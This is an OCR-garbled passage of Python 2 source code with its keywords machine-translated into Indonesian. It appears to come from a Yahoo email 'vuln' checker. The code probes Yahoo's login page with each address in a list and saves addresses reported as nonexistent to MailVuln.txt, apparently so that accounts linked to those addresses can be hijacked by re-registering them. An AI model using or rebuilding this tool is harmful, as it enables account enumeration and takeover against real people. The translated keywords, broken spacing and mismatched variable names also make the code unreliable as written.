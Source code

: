 	mail = open (file, "r"). readlines ()
	untuk pw dalam surat:
		mail = pw.replace ("\ n", "")
		jml + = 1
		mpsh.append (jml)
		yahoo = re.compile (r '@. *')
		otw = yahoo.search (mail) .group ()
		if 'yahoo.com' dalam otw:
			br.open ("https://login.yahoo.com/config/login?.src=fpctx&.intl=id&.lang=id-ID&.done=https://id.yahoo.com")
			br._factory.is_html = Benar
			br.select_form (nr = 0)
			br ["username"] = email
			klik = br.submit (). read ()
			jok = re.compile (r '"messages.ERROR_INVALID_USERNAME">. *')
			mencoba:
				pek = jok.search (klik) .group ()
			kecuali:
				terus
			jika '"messages.ERROR_INVALID_USERNAME">' di pek:
				cetak ("\ 033 [1; 96m [✓] \ 033 [1; 92mVULN")
				cetak ("\ 033 [1; 96m [➹] \ 033 [1; 97mEmail \ 033 [1; 91m: \ 033 [1; 92m" + mail)
				save = open ('out / MailVuln.txt', 'a')
				save.write ("Email:" + mail + '\ n \ n')
				save.close ()
				berhasil.append (mail)
	cetak 42 * "\ 033 [1; 96m ="
	cetak '\ 033 [1; 96m [\ 033 [1; 97m.2016 \ 033 [1; 96m] \ 033 [1; 92mSelesai \ 033 [1; 97m ....'
	print "\ 033 [1; 96m [+] \ 033 [1; 92mTotal \ 033 [1; 91m: \ 033 [1; 97m" + str (len (berhasil))
	print "\ 033 [1; 96m [+] \ 033 [1; 92mFile Tersimpan \ 033 [1; 91m: \ 033 [1; 97m keluar / FileMailVuln.txt"
	raw_input ("\ n \ 033 [1; 96m [\ 033 [1; 97mKembali \ 033 [1; 96m]")
	Tidak bisa()
	
       
		
if __name__ == '__main__':
	siapa ()
